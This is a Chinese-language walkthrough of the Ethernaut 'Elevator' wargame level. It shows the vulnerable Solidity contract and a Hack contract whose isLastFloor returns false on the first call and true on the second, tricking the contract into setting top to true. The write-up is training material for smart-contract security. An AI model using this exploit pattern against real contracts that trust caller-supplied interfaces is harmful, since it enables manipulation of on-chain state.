 # Ethernaut 11-Elevator

## 本关目标

- 到达顶层，将 top 设置为 true

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    // 将msg.sender转换成Building接口的实现
    Building building = Building(msg.sender);

    // 调用外部传入的Building接口，如果不是顶层，则赋值floor
    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      // 再次调用building的isLastFloor赋值是否为顶层
      top = building.isLastFloor(floor);
    }
  }
}
```

## 解决方案

1. 可以看到 goTo 方法中的 Building 实现依赖外部实现，并且调用了两次 isLastFloor()
2. 在 Hack 合约中实现 isLastFloor(uint)方法，保证第一次调用返回 false，第二次调用返回 true 即可

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Elevator.sol";

contract Hack {
    bool entried;
    Elevator private immutable elevator;

    constructor(address _target) {
        elevator = Elevator(_target);
    }
    function isLastFloor(uint) external returns (bool){
        // 只要调用过则只返回true, 第一次调用返回false
        if(entried) {
            return true;
        } else {
            entried = true;
            return false;
        }
    }

    function hack() public {
        elevator.goTo(3);
    }
}
```
